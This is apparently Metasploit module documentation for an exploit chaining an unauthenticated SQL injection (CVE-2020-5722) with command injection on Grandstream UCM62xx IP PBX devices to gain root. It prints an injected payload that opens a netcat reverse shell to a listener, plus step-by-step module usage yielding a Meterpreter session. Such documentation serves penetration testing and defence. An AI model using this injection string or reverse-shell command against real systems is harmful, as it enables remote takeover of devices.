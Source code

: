 ## Vulnerable Application

### Description

This module exploits an unauthenticated SQL injection vulnerability (CVE-2020-5722) and
a command injection vulnerability (technically, no assigned CVE but was inadvertently
patched at the same time as CVE-2019-10662) affecting the Grandstream UCM62xx IP PBX
series of devices. The vulnerabilities allow an unauthenticated and remote attacker to
execute commands as `root`.

Exploitation happens in two stages:

1. An SQL injection during username lookup while executing the "Forgot Password" function.
2. After successful SQL injection the user provided username is passed to a python script
    via the shell. Like so:

```
  /bin/sh -c python /app/asterisk/var/lib/asterisk/scripts/sendMail.py \
    password '' `cat <<'TTsf7G0' z' or 1=1--`;`nc 10.0.0.3 4444 -e /bin/sh`;` TTsf7G0 `
```

This module affect UCM62xx versions before firmware version 1.0.19.20.

### Installation

The UCM62xx PBX is a physical device and is not known to have been successfully emulated.
However, if you have a device, affected firmware can be downloaded here:

* https://firmware.grandstream.com/Release_UCM62xx_1.0.18.13.zip

## Verification Steps

* Acquire an affected device and configure it with the affected firmware
* Do: `use exploit/linux/http/grandstream_ucm62xx_sendemail_rce`
* Do: `set RHOST <ip>`
* Do: `check`
* Verify the remote target is flagged as vulnerable
* Do: `set LHOST <ip>`
* Do: `set LPORT <port>`
* Do: `exploit`
* You should get a Meterpreter session.

## Targets

### 0

This targets the PBX with the `reverse_netcat_gaping` payload and returns a reverse shell.

### 1

This target obtains a meterpreter session using `wget`.

## Options
